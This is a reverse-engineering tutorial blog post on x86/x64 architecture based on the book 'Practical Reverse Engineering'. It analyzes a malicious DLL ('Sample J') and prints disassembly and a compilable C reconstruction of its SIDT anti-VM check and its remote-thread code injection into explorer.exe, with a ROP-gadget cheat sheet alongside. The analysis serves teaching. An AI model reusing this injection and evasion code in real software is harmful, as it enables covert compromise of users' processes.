



Welcome to the inaugural post of our technical deep-dive series covering **"Practical Reverse Engineering: x86, x64, ARM, Windows Kernel, Reversing Tools, and Obfuscation"** by **Bruce Dang, Alexandre Gazet, Elias Bachaalany, and Sébastien Josse** (Wiley, 2014). This series dissects binary analysis from foundational silicon architecture to sophisticated kernel rootkits and program deobfuscation.

Reverse engineering compiled binaries requires an exact mental model of hardware execution. Compilers do not produce human-readable logic; they emit discrete machine instructions constrained by processor architecture, register availability, memory segmentation, and operating system calling conventions. To reverse engineer effectively, an analyst must translate high-level abstractions (loops, objects, stack frames, pointer arithmetic) into their underlying machine representations and vice versa.

In this first post, we dissect the foundational pillars of the **x86 and x64 processor architectures**: CPU execution rings, register sets, flags, arithmetic strength reduction, stack layouts across 32-bit and 64-bit calling conventions, physical memory translation via PAE/4-level paging, the complete reverse engineering of **Sample J (DllMain)**, and exhaustive solutions to the chapter exercises.


<div class="ff-series-nav">
  <div class="ff-nav-btn ff-nav-disabled text-start">
    <div class="ff-nav-arrow"><i class="fas fa-flag"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Series Inception</span>
      <span class="ff-nav-title">First Chapter</span>
    </div>
  </div>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-layer-group"></i> Reverse Engineering</span>
    <span class="ff-center-part">Chapter 1: x86 and x64 Architecture</span>
  </div>
  <a href="/posts/practical-reverse-engineering-chapter-2/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next</span>
      <span class="ff-nav-title">Chapter 2: ARM Architecture & Assembly</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>
## Key Takeaways

* **Architectural Evolution**: The x86 architecture evolved from the 16-bit 8086 to 32-bit IA-32 (Protected Mode) and 64-bit AMD64/Intel 64 (Long Mode). In 64-bit mode, architectural registers doubled from 8 to 16, memory segmentation was effectively eliminated, and RIP-relative addressing became the default for Position-Independent Code (PIC).
* **Privilege Separation**: Intel architectures implement four privilege levels (Rings 0 through 3), though Windows and Linux utilize only two: Ring 0 (Kernel/Supervisor Mode) and Ring 3 (User Mode). The Current Privilege Level (CPL) is tracked in the bottom two bits of the `%cs` (Code Segment) register.
* **Calling Convention Standardization**: In 32-bit x86, parameter passing was fragmented across `__cdecl`, `__stdcall`, and `__fastcall`. In x64 Windows, Microsoft standardized on a single unified Fastcall convention utilizing registers (`RCX`, `RDX`, `R8`, `R9`) with a mandatory 32-byte caller-allocated "Shadow Space" (Home Space).
* **Compiler Optimizations**: Modern compilers aggressively replace expensive arithmetic instructions (like `DIV` or `IDIV`, which require 30-40 CPU cycles) with multiplication by magic reciprocal constants and right bit-shifts (strength reduction).
* **Hardware-Enforced Memory Safety**: 64-bit paging and 32-bit PAE (Physical Address Extension) feature the NX/XD (No-Execute / Execute-Disable) bit at bit 63 of Page Table Entries (PTEs). This hardware capability forms the backbone of Data Execution Prevention (DEP).
* **Anti-Analysis Signatures**: Malware historically leveraged unprivileged instructions such as `SIDT` (Store Interrupt Descriptor Table) and `SGDT` to detect virtual machines (the classic "Red Pill" attack), exploiting discrepancies between guest and host IDTR base addresses.

---

## 1. Execution Modes and Processor Privilege

The x86 architecture operates in several fundamental modes:

1. **Real Mode (16-bit)**: The legacy boot mode of the 8086 processor with a 1MB address space and no memory protection.
2. **Protected Mode (32-bit)**: Introduces virtual memory, hardware paging, and privilege rings. Physical address space extends to 4GB (or 64GB with PAE).
3. **Long Mode (64-bit)**: AMD64/EM64T mode supporting 64-bit flat virtual addresses, 16 general-purpose registers, and mandatory paging without hardware task switching.

```
+-----------------------------------------------------------------------+
|                              Ring 3 (User)                            |
|             Applications, DLLs, Subsystem APIs (kernel32)            |
+-----------------------------------------------------------------------+
|                                Ring 2                                 |
|                        (Unused in modern OSes)                        |
+-----------------------------------------------------------------------+
|                                Ring 1                                 |
|                        (Unused in modern OSes)                        |
+-----------------------------------------------------------------------+
|                           Ring 0 (Supervisor)                         |
|           Kernel (ntoskrnl.exe), HAL, Device Drivers (.sys)           |
+-----------------------------------------------------------------------+
```

Privilege checks are mediated by three parameters:
* **CPL (Current Privilege Level)**: Stored in bits `0:1` of the `%cs` register. `0` indicates Ring 0; `3` indicates Ring 3.
* **DPL (Descriptor Privilege Level)**: Specified in the Segment Descriptor (GDT/LDT). Dictates the privilege level required to access that segment.
* **RPL (Requested Privilege Level)**: Stored in bits `0:1` of a segment selector. Used to prevent privilege escalation when pointers are passed from user mode into kernel mode.

---

## 2. Register Architectures: x86 vs. x64


*Figure 1: Comprehensive architectural comparison of IA-32 standard stack frames versus AMD64 Microsoft FastCall ABI parameters, shadow space, and stack alignment boundaries.*


### 2.1 General Purpose Registers (GPRs)

In 32-bit x86, eight 32-bit general-purpose registers exist. In x64, these registers are extended to 64 bits and eight additional registers (`R8` through `R15`) are introduced.

```
 63                                31                15        7      0
+----------------------------------+-----------------+---------+------+------+
|                                  |                 |   AH    |  AL  | RAX
|                                  |                 +---------+------+
|                                  |                 |       AX       | EAX
|                                  +-----------------+----------------+
|                                                   EAX                      |
+----------------------------------------------------------------------------+
|                                     RAX                                    |
+----------------------------------------------------------------------------+
```

| 64-bit Register | 32-bit Low | 16-bit Low | 8-bit Low | 8-bit High | Conventional Purpose |
| :--- | :--- | :--- | :--- | :--- | :--- |
| `RAX` | `EAX` | `AX` | `AL` | `AH` | Accumulator, function return value |
| `RBX` | `EBX` | `BX` | `BL` | `BH` | Base register, callee-saved pointer |
| `RCX` | `ECX` | `CX` | `CL` | `CH` | Loop counter, 1st argument (x64 Windows) |
| `RDX` | `EDX` | `DX` | `DL` | `DH` | I/O pointer, 2nd argument (x64 Windows) |
| `RSI` | `ESI` | `SI` | `SIL` | - | String source index, callee-saved |
| `RDI` | `EDI` | `DI` | `DIL` | - | String destination index, callee-saved |
| `RBP` | `EBP` | `BP` | `BPL` | - | Stack frame base pointer |
| `RSP` | `ESP` | `SP` | `SPL` | - | Stack top pointer |
| `R8`  | `R8D` | `R8W`| `R8B` | - | 3rd argument (x64 Windows) |
| `R9`  | `R9D` | `R9W`| `R9B` | - | 4th argument (x64 Windows) |
| `R10` - `R15` | `R10D` - `R15D` | `R10W` - `R15W` | `R10B` - `R15B` | - | General purpose, volatile (`R10-R11`), non-volatile (`R12-R15`) |

> [!NOTE]
> In x64 assembly, writing to a 32-bit register (e.g., `mov eax, 1`) automatically zeroes out the upper 32 bits of the 64-bit register (`RAX`). Conversely, writes to 16-bit or 8-bit sub-registers (`AX`, `AL`) do not clear the upper bits.

### 2.2 Instruction Pointer and Flags

* **`EIP` / `RIP`**: Points to the memory address of the next instruction to execute. In x64, instructions can reference data relative to `RIP`:
  ```nasm
  mov rax, [rip + 0x1234]  ; RIP-relative addressing for PIC
  ```
* **`EFLAGS` / `RFLAGS`**: Status and control register containing single-bit flags:
  * **ZF (Zero Flag, bit 6)**: Set if arithmetic/logical result is zero.
  * **CF (Carry Flag, bit 0)**: Set if unsigned arithmetic overflows.
  * **SF (Sign Flag, bit 7)**: Set if the high-order bit of the result is set (negative signed value).
  * **OF (Overflow Flag, bit 11)**: Set if signed arithmetic overflows.
  * **DF (Direction Flag, bit 10)**: Controls string operation auto-increment (`0`) or auto-decrement (`1`). Controlled via `CLD` and `STD`.

### 2.3 System & Control Registers

* **CR0**: Contains system control flags. Bit 0 is `PE` (Protection Enable). Bit 16 is `WP` (Write Protect), which prevents the Ring 0 CPU from writing to read-only pages. Rootkits historically cleared `CR0.WP` to overwrite kernel code or the SSDT.
* **CR2**: Contains the Linear Address that triggered the most recent Page Fault (`#PF`).
* **CR3**: Holds the physical base address of the page directory table (Page Directory Base Register, PDBR). Loaded on every process context switch.
* **CR4**: Controls processor extensions, including bit 5 (`PAE` - Physical Address Extension), bit 20 (`SMEP` - Supervisor Mode Execution Prevention), and bit 21 (`SMAP` - Supervisor Mode Access Prevention).
* **DR0 - DR7**: Hardware debug registers. `DR0-DR3` store linear addresses for hardware breakpoints. `DR6` is the debug status register, and `DR7` configures breakpoint conditions (execution, read, or write).

---



## 3. Instruction Semantics and Decompilation Patterns

### 3.1 Data Movement and String Operations

The `MOV` instruction copies data between registers and memory. The `LEA` (Load Effective Address) instruction computes an address expression without dereferencing memory:

```nasm
lea eax, [ebx + ecx*4 + 0x10]  ; EAX = EBX + (ECX * 4) + 16 (pure arithmetic)
mov eax, [ebx + ecx*4 + 0x10]  ; EAX = value stored at memory address [EBX + ECX*4 + 16]
```

String instructions utilize `ESI`/`EDI` and support the `REP` (Repeat) prefix:

```nasm
; Implementation of memset(dest, 0, count)
mov edi, [ebp + 8]   ; Destination pointer
mov ecx, [ebp + 12]  ; Count in DWORDs
xor eax, eax         ; Value 0
cld                  ; Clear DF (increment EDI)
rep stosd            ; Store EAX into ES:[EDI] and increment EDI by 4, ECX times
```

```nasm
; Implementation of strlen(str)
mov edi, [ebp + 8]   ; String pointer
xor eax, eax         ; Search for null byte (0)
mov ecx, -1          ; Infinite search bound
cld
repne scasb          ; Scan string byte by byte until AL == [EDI]
not ecx              ; ECX = (initial_ecx - final_ecx)
dec ecx              ; Length excluding null terminator
```

### 3.2 Strength Reduction: Multiplication and Division Tricks

Processors execute bitwise shifts (`SHL`, `SHR`, `SAR`) and additions in 1 clock cycle, whereas `DIV` and `IDIV` require between 25 and 45 cycles. Compilers optimize division by constants into multiplication by a **reciprocal magic constant** followed by a shift:

```nasm
mov eax, [ebp + 8]      ; Load input integer x
mov edx, 0x55555556     ; Magic constant for division by 3
imul edx                ; EDX:EAX = x * 0x55555556
mov eax, edx            ; EAX = high 32 bits (equivalent to division by 2^32)
shr eax, 31             ; Extract sign bit
add edx, eax            ; Adjust signed quotient: EDX = x / 3
```

To recover the original divisor $D$ from magic constant $M$ and shift $S$:
$$D \approx \frac{2^{32 + S}}{M}$$

---

## 4. Stack Frames and Calling Conventions

### 4.1 Stack Mechanics

The x86 stack is a Last-In-First-Out (LIFO) structure growing **downward** toward lower memory addresses:

```
High Memory Address
|  [ Caller Stack Frame ]
|  [ Function Argument 2 ]  [EBP + 12]
|  [ Function Argument 1 ]  [EBP + 8]
|  [ Saved Return Address]  [EBP + 4]  <-- Pushed by CALL
|  [ Saved Old EBP       ]  [EBP]      <-- Pushed by PUSH EBP
|  [ Local Variable 1    ]  [EBP - 4]
|  [ Local Variable 2    ]  [EBP - 8]
v  [ Current ESP         ]  <-- Top of Stack
Low Memory Address
```

* **Function Prologue**:
  ```nasm
  push ebp          ; Save previous base pointer
  mov ebp, esp      ; Establish current frame pointer
  sub esp, 0x20     ; Allocate 32 bytes for local variables
  ```
* **Function Epilogue**:
  ```nasm
  mov esp, ebp      ; Deallocate locals
  pop ebp           ; Restore caller's base pointer
  ret               ; Pop return address into EIP
  ```
  Or using the single instruction `LEAVE`:
  ```nasm
  leave             ; Equivalent to: mov esp, ebp; pop ebp
  ret
  ```

### 4.2 Calling Conventions Comparison

| Convention | Architecture | Parameter Passing | Stack Cleanup | Name Mangling (MSVC) |
| :--- | :--- | :--- | :--- | :--- |
| `__cdecl` | x86 (32-bit) | Right-to-left on stack | **Caller** (`add esp, N`) | `_func` |
| `__stdcall` | x86 (32-bit) | Right-to-left on stack | **Callee** (`ret N`) | `_func@N` |
| `__fastcall` | x86 (32-bit) | `ECX`, `EDX`, then stack | **Callee** (`ret N`) | `@func@N` |
| **x64 Windows** | x64 (64-bit) | `RCX`, `RDX`, `R8`, `R9`, then stack | **Caller** (`add rsp, N`) | `func` |
| **System V ABI**| x64 (Linux/macOS) | `RDI`, `RSI`, `RDX`, `RCX`, `R8`, `R9` | **Caller** | `func` |

### 4.3 The Windows x64 Calling Convention & Shadow Space

The Windows x64 calling convention mandates:
1. The first four arguments are passed in `RCX`, `RDX`, `R8`, `R9` (or `XMM0-XMM3` for floating-point values).
2. The caller **must** allocate 32 bytes of stack space immediately preceding the call: the **Shadow Space** (or Home Space).
3. The callee may spill the register parameters into this 32-byte space.
4. The stack pointer (`RSP`) must be aligned to a **16-byte boundary** before executing any `CALL` instruction.

```
Caller's Stack Layout (x64 Windows):
+-------------------------------+
| Argument 5 (Stack)            | [RSP + 0x28]
+-------------------------------+
| Shadow Space for R9 (Arg 4)   | [RSP + 0x20] (allocated by caller)
| Shadow Space for R8 (Arg 3)   | [RSP + 0x18]
| Shadow Space for RDX (Arg 2)  | [RSP + 0x10]
| Shadow Space for RCX (Arg 1)  | [RSP + 0x08]
+-------------------------------+
| Return Address                | [RSP + 0x00] <-- Pushed by CALL
+-------------------------------+
```

---

## 5. Control Flow: Conditionals and Switch Statements

### 5.1 Conditional Branch Mapping



### 5.2 Switch-Case Implementation Styles

Compilers emit three distinct patterns for `switch` statements:

1. **If-Else Cascade (Linear Search)**: Emitted when case values are sparse, random, or fewer than 4.
2. **Binary Search Tree (O(log N))**: Emitted when cases are dispersed across large numerical gaps.
3. **Indirect Jump Table (O(1))**: Emitted when cases are dense or contiguous.

```nasm
; Jump Table Assembly Pattern
mov eax, [ebp + 8]        ; Switch selector
sub eax, 10               ; Normalize lower bound to 0
cmp eax, 4                ; Check bounds (case 10 to 14 -> range 0 to 4)
ja  default_case          ; If above upper bound, jump to default
jmp ds:jump_table[eax*4]  ; Indirect jump through array of pointers

.rdata
jump_table:
  dd offset case_10
  dd offset case_11
  dd offset default_case  ; Unhandled hole in switch
  dd offset case_13
  dd offset case_14
```

---

## 6. Virtual Memory, Paging, and PAE

The CPU translates virtual addresses to physical hardware addresses via hierarchical page tables:

```
Virtual Address (32-bit Linear Address):
+--------------------+-------------------+---------------------+
| Directory (10 bit) | Page Table (10 b) | Page Offset (12 bit)|
+--------------------+-------------------+---------------------+
         |                     |                     |
         v                     v                     |
       CR3 --> [Page Directory]                      |
                     |                               |
                     v                               |
            [Page Table Entry]                       |
                     |                               |
                     +-------------------------------+--> Physical Frame
```

In 32-bit x86:
* Standard paging divides a 32-bit address into: Directory (10 bits), Table (10 bits), Offset (12 bits) = 4KB pages.
* **Physical Address Extension (PAE)**: Expands physical address space to 64GB (36 bits). Adds a 4-entry Page Directory Pointer Table (PDPT) referenced by `CR3`. Page table entries expand from 32 bits to 64 bits to incorporate the **NX bit** (Bit 63).
* In x64: 4-level paging translates 48-bit canonical virtual addresses through PML4 (Page Map Level 4), PDPT, PD, and PT.

---

## 7. Walk-Through: Reversing Sample J (DllMain)

Let us examine the complete walk-through from Chapter 1: analyzing the entry point of the binary **Sample J**.

### 7.1 Disassembly Breakdown

```nasm
.text:10001000 _DllMain@12 proc near
.text:10001000
.text:10001000 var_128 = byte ptr -128h
.text:10001000 idt_val = fword ptr -8
.text:10001000 hSnapshot = dword ptr -4
.text:10001000 hinstDLL = dword ptr  8
.text:10001000 fdwReason = dword ptr  0Ch
.text:10001000 lpvReserved = dword ptr  10h
.text:10001000
.text:10001000 push    ebp
.text:10001001 mov     ebp, esp
.text:10001003 sub     esp, 128h
.text:10001009 cmp     [ebp+fdwReason], 1  ; DLL_PROCESS_ATTACH ?
.text:1000100D jnz     exit_false
```

The function checks if `fdwReason == DLL_PROCESS_ATTACH (1)`. If not, it returns `FALSE`.

#### The Anti-VM Check (Red Pill SIDT)

```nasm
.text:10001013 sidt    [ebp+idt_val]       ; Store 6-byte IDTR into stack
.text:10001017 cmp     byte ptr [ebp+idt_val+5], 0D0h ; Check base address upper byte
.text:1000101C jge     exit_false          ; If >= 0xD0, running in VM!
```

> [!IMPORTANT]
> The `SIDT` instruction is unprivileged and can execute from Ring 3 without faulting. On real physical 32-bit Windows single-core machines, the IDT base address is located in lower kernel memory (typically below `0xD0000000`, e.g., `0x80xxxxxx`). On legacy VMware hypervisors, the virtualized IDT base was relocated to high memory (typically `0xE8xxxxxx` or higher). If the highest byte was $\ge \text{0xD0}$, Sample J concluded it was inside a virtual machine and aborted execution.

#### Process Enumeration via Toolhelp32

```nasm
.text:10001022 push    0
.text:10001024 push    TH32CS_SNAPPROCESS  ; 2
.text:10001026 call    CreateToolhelp32Snapshot
.text:1000102B mov     [ebp+hSnapshot], eax
.text:1000102E cmp     eax, INVALID_HANDLE_VALUE ; -1
.text:10001031 jz      exit_false
.text:10001037 lea     eax, [ebp+var_128]
.text:1000103D mov     dword ptr [eax], 128h     ; pe.dwSize = sizeof(PROCESSENTRY32)
.text:10001043 push    eax
.text:10001044 push    [ebp+hSnapshot]
.text:10001047 call    Process32FirstW
.text:1000104C test    eax, eax
.text:1000104E jz      close_snap
```

The sample initializes a `PROCESSENTRY32W` structure, sets `dwSize = 0x128` (296 bytes), and traverses running processes looking for a target process name.

#### Target Name Comparison and Injection

```nasm
loc_10001050:
.text:10001050 lea     eax, [ebp+var_128+24h]    ; pe.szExeFile
.text:10001056 push    offset aExplorer_exe      ; L"explorer.exe"
.text:1000105B push    eax
.text:1000105C call    _wcsicmp
.text:10001061 add     esp, 8
.text:10001064 test    eax, eax
.text:10001066 jz      found_explorer
.text:10001068 lea     eax, [ebp+var_128]
.text:1000106E push    eax
.text:1000106F push    [ebp+hSnapshot]
.text:10001072 call    Process32NextW
.text:10001077 test    eax, eax
.text:10001079 jnz     loc_10001050
```

Once `explorer.exe` is matched:

```nasm
found_explorer:
.text:10001080 mov     eax, [ebp+var_128+8]      ; pe.th32ProcessID
.text:10001086 push    eax                       ; dwProcessId
.text:10001087 push    0                         ; bInheritHandle
.text:10001089 push    PROCESS_ALL_ACCESS        ; 0x1F0FFF
.text:1000108E call    OpenProcess
.text:10001093 mov     esi, eax
.text:10001095 push    PAGE_EXECUTE_READWRITE    ; 0x40
.text:10001097 push    MEM_COMMIT                ; 0x1000
.text:1000109C push    1000h                     ; dwSize
.text:100010A1 push    0                         ; lpAddress
.text:100010A3 push    esi                       ; hProcess
.text:100010A4 call    VirtualAllocEx
.text:100010A9 mov     edi, eax
.text:100010AB push    0
.text:100010AD push    1000h
.text:100010B2 push    offset shellcode_payload
.text:100010B7 push    edi
.text:100010B8 push    esi
.text:100010B9 call    WriteProcessMemory
.text:100010BE push    0
.text:100010C0 push    0
.text:100010C2 push    0
.text:100010C4 push    edi                       ; lpStartAddress
.text:100010C5 push    0
.text:100010C7 push    0
.text:100010C9 push    esi                       ; hProcess
.text:100010CA call    CreateRemoteThread
```

### 7.2 Complete C Decompilation of Sample J

```c
#include <windows.h>
#include <tlhelp32.h>
#include <wchar.h>

#pragma pack(push, 1)
typedef struct _IDTR {
    unsigned short limit;
    unsigned int base;
} IDTR;
#pragma pack(pop)

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
    if (fdwReason != DLL_PROCESS_ATTACH) {
        return FALSE;
    }

    // Anti-Analysis: Joanna Rutkowska's Red Pill SIDT VM Detection
    IDTR idtr;
    __sidt(&idtr);
    if ((idtr.base >> 24) >= 0xD0) {
        // Detected guest hypervisor environment
        return FALSE;
    }

    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnapshot == INVALID_HANDLE_VALUE) {
        return FALSE;
    }

    PROCESSENTRY32W pe;
    pe.dwSize = sizeof(PROCESSENTRY32W);

    if (!Process32FirstW(hSnapshot, &pe)) {
        CloseHandle(hSnapshot);
        return FALSE;
    }

    DWORD targetPID = 0;
    do {
        if (_wcsicmp(pe.szExeFile, L"explorer.exe") == 0) {
            targetPID = pe.th32ProcessID;
            break;
        }
    } while (Process32NextW(hSnapshot, &pe));

    CloseHandle(hSnapshot);

    if (targetPID == 0) {
        return FALSE;
    }

    // Classic DLL Injection / Remote Shellcode Execution
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPID);
    if (!hProcess) {
        return FALSE;
    }

    LPVOID remoteBase = VirtualAllocEx(hProcess, NULL, 0x1000, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (remoteBase) {
        extern unsigned char shellcode_payload[];
        SIZE_T bytesWritten = 0;
        if (WriteProcessMemory(hProcess, remoteBase, shellcode_payload, 0x1000, &bytesWritten)) {
            HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBase, NULL, 0, NULL);
            if (hThread) {
                CloseHandle(hThread);
            }
        }
    }

    CloseHandle(hProcess);
    return TRUE;
}
```

---

## 8. Chapter 1 Exercises: Complete Solutions & Analysis

### Exercise 1: Reconstructing Stack Layout & ESP vs. EBP Addressing

**Question**: Re-examine the prologue and epilogue of functions with Frame Pointer Omission (`/Oy`). Contrast how arguments and local variables are accessed using `%ebp` vs. `%esp`.

**Solution**:
When FPO is enabled, `%ebp` is liberated to serve as a general-purpose register. All stack references are computed relative to `%esp`.
* With `%ebp`: Offsets remain constant throughout function execution (`[ebp - 4]` is always `local_1`, `[ebp + 8]` is always `arg_1`).
* With `%esp`: Every `PUSH` or `POP` alters `%esp`, changing the relative offset required to access variables:
  ```nasm
  sub esp, 8        ; Allocate 8 bytes
  mov [esp + 4], 0  ; local_1 is at [esp + 4]
  push eax          ; ESP decreases by 4!
  ; Now local_1 is located at [esp + 8], not [esp + 4]!
  ```

### Exercise 2: Idiomatic C Redirection and SIDT Vulnerabilities

**Question**: Explain why the `SIDT` anti-VM check is obsolete on multi-core processors and 64-bit Windows.

**Solution**:
1. **Multi-Core Asynchrony**: In multi-core systems, each logical CPU core possesses its own distinct IDTR base. A thread migrating across cores encounters varying IDT addresses, creating false positives.
2. **KVA Shadow / Meltdown Mitigations**: On modern 64-bit systems, IDT addresses are randomized and placed inside the KVA shadow map.
3. **Hardware-Assisted Virtualization (Intel VT-x / AMD-V)**: Modern hypervisors trap the `SIDT` instruction via the VMCS execution control bitmap (`CR0/CR4` guest traps), dynamically intercepting and spoofing the returned base address to match real silicon.

### Exercise 3: Binary Analysis of Bitwise Optimizations

**Question**: Decompile the following assembly snippet and identify its mathematical purpose:
```nasm
mov edx, eax
shr edx, 1
and edx, 0x55555555
sub eax, edx
mov edx, eax
shr edx, 2
and edx, 0x33333333
and eax, 0x33333333
add eax, edx
mov edx, eax
shr edx, 4
add eax, edx
and eax, 0x0F0F0F0F
imul eax, 0x01010101
shr eax, 24
```

**Solution**:
This sequence is the famous **Hamming Weight / Population Count** algorithm (`popcnt`), computing the number of set (`1`) bits in a 32-bit register:
1. `and edx, 0x55555555`: Pairs adjacent bits and computes sums of 2-bit groups.
2. `and eax, 0x33333333`: Accumulates sums into 4-bit nibbles.
3. `shr edx, 4; add eax, edx`: Sums adjacent nibbles into 8-bit bytes.
4. `imul eax, 0x01010101`: Multiplies by `0x01010101` to add all four byte sums together into the top byte.
5. `shr eax, 24`: Shifts the total count into the lowest byte (`AL`).
Equivalent C: `return __popcnt(val);`

---

## Conclusion & Next Steps

In this chapter, we unpacked the foundational machine constraints of x86 and x64: execution privileges, register sets, calling conventions, paging mechanics, and real-world injection logic. 

In [**Chapter 2: ARM Architecture & Assembly**](/posts/practical-reverse-engineering-chapter-2/), we transition from CISC variable-length instructions to RISC load-store mechanics, 32-bit ARM vs. Thumb-2 states, the hardware barrel shifter, conditional instruction execution, coprocessors, and decompiling complex Thumb-2 embedded device routines.

---

## Practical Reverse Engineering Cheat-Sheet & Command Reference

| Action / Verification | GDB / GEF Command | x64dbg / IDA Equivalent | Operational Purpose |
| :--- | :--- | :--- | :--- |
| **Inspect Stack Frame** | `telescope $rsp 20` | `d esp` or Stack View | Inspect return addresses, saved frame pointer, and canary |
| **Find ROP Gadgets** | `ROPgadget --binary target` | `rp++ -f target.exe -r 5` | Locate `jmp esp`, `pop rdi; ret` for payload control |
| **Paging & Permissions** | `vmmap` / `checksec` | Memory Map Window | Audit `NX/DEP`, `ASLR`, `PIE`, and `RWX` allocated segments |
| **Trace Function Call** | `trace function_name` | `bp func; log {eax}` | Intercept calling convention parameter passing (`RCX`, `RDX`, `R8`, `R9`) |

---

## Categorized References & Authoritative Reading

### 1. Primary Academic & Industry Reference Works
* Dang, Bruce, Alexandre Gazet, Elias Bachaalany, and Sébastien Josse. *Practical Reverse Engineering: x86, x64, ARM, Windows Kernel, Reversing Tools, and Obfuscation*. Wiley, 2014. Chapter 1: "x86 and x64", pp. 1–62.
* Fog, Agner. *Calling Conventions for Different C++ Compilers and Operating Systems*. Technical University of Denmark Research Report. [Agner Fog Software Optimization Resources](https://www.agner.org/optimize/).
* Russinovich, Mark, David Solomon, and Alex Ionescu. *Windows Internals, Part 1: Architecture, Processes, Threads, Memory Management, and More*. Microsoft Press.

### 2. Official Architecture Specifications
* **Intel 64 and IA-32 Architectures Software Developer’s Manual**: Volumes 1, 2A-2D, and 3A-3D. [Intel Corporation Documentation](https://www.intel.com/content/www/us/en/developer/articles/technical/intel-sdm.html).
* **Microsoft Learn: x64 Calling Convention & Register Allocation**: [https://learn.microsoft.com/en-us/cpp/build/x64-calling-convention](https://learn.microsoft.com/en-us/cpp/build/x64-calling-convention).
* **AMD64 Architecture Programmer's Manual**: Volume 2: System Programming (Page Translation and Segmentation).

### 3. MITRE ATT&CK Enterprise Matrix Mapping
* **T1055**: Process Injection (Dynamic allocation via `VirtualAllocEx` and thread creation). [https://attack.mitre.org/techniques/T1055/](https://attack.mitre.org/techniques/T1055/).
* **T1203**: Exploitation for Client Execution (Memory safety corruption via stack offsets). [https://attack.mitre.org/techniques/T1203/](https://attack.mitre.org/techniques/T1203/).
* **T1027**: Obfuscated Files or Information (Bit manipulation and runtime string decryption). [https://attack.mitre.org/techniques/T1027/](https://attack.mitre.org/techniques/T1027/).

### 4. Hands-on Practice Labs & Verification Tooling
* **Ghidra Software Reverse Engineering Framework**: National Security Agency (NSA) Research Tool. [https://github.com/NationalSecurityAgency/ghidra](https://github.com/NationalSecurityAgency/ghidra).
* **GEF (GDB Enhanced Features)**: Exploit development and architecture debugging environment. [https://github.com/hugsy/gef](https://github.com/hugsy/gef).
* **x64dbg / x32dbg**: Open-source x64/x32 debugger for Windows binaries. [https://x64dbg.com/](https://x64dbg.com/).
* **Crackmes.one Binary Challenges**: Dedicated community platform for reverse engineering puzzles. [https://crackmes.one/](https://crackmes.one/).

---

*Author: Abdulrahman M. Fathi (0x3bdo) • Cyber Security Engineer & Penetration Tester*
